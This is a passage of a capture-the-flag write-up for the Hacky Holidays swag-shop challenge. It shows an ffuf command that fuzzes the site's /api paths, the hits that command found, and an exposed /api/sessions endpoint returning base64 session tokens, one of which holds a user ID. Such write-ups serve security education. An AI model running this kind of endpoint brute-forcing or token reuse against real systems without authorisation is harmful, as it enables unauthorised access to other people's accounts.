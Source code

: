 {F1138964}

+ As  every request triggered after /api endpoint, so I did the brute force the /api path using the best wordlist which I came across with:

 https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d which was created by Yassine Aboukir. 

+ I used the tool "FFUF" to fuzz the API endpoint with responses such as 200,400,403,401,502.

Command - ```./ffuf -w word.txt -u "https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ" -mc 200,400,403,401,502```

{F1139017}

+ In the response I got:

```
sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
user                    [Status: 400, Size: 35, Words: 3, Lines: 1]
```

+ Afterwards, I visited https://hackyholidays.h1ctf.com/swag-shop/api/sessions :

**Response**

{F1139021}

```json
{
"sessions": [
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0=",
"eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="
]
}
```
